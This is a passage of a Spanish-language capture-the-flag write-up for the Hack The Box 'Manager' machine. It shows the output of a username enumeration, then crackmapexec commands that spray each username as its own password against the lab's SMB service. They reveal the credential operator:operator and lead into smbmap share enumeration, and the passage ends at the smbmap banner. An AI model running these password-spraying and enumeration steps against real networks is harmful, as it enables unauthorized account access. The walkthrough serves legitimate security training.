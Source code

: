 ```bash
2024/10/12 23:48:24 >  [+] VALID USERNAME:       RYAN@manager.htb
2024/10/12 23:49:54 >  [+] VALID USERNAME:       RAVEN@manager.htb
2024/10/12 23:49:59 >  [+] VALID USERNAME:       GUEST@manager.htb
```
Tenemos varios usuarios. Cópialos en minúsculas para evitar errores.

Como ya tenemos usuarios válidos, podemos aplicar varias cosillas. Lo principal es ver si no se está ocupando el nombre de un usuario como su contraseña.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="FBruta">Aplicando Fuerza Bruta con crackmapexec a Usuarios Encontrados</h2>

Podríamos usar **kerbrute** para probar qué usuario tiene su nombre de usuario como contraseña, pero para más rapidez, vamos a usar **crackmapexec**.

Usaremos la lista de usuarios como usuarios y la misma lista como contraseñas, y le indicaremos que no aplique fuerza bruta y que continúe cuando encuentre una validación:
```bash
crackmapexec smb 10.10.11.236 -u users.txt -p users.txt --no-brute --continue-on-success
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator
```
Excelente, encontramos que el **usuario operator** tiene su mismo nombre como contraseña.

Por si las dudas, comprobemos que realmente funciona esta contraseña:
```bash
crackmapexec smb 10.10.11.236 -u 'operator' -p 'operator'
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator
```

Funciona, es decir, que podemos usar este usuario para enumerar el **servicio SMB**:
```bash
smbmap -H 10.10.11.236 -u 'operator' -p 'operator'
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.4 | Shawn Evans - ShawnDEvans@gmail.com<mailto:ShawnDEvans@gmail.com>
                     https://github.com/ShawnDEvans/smbmap

```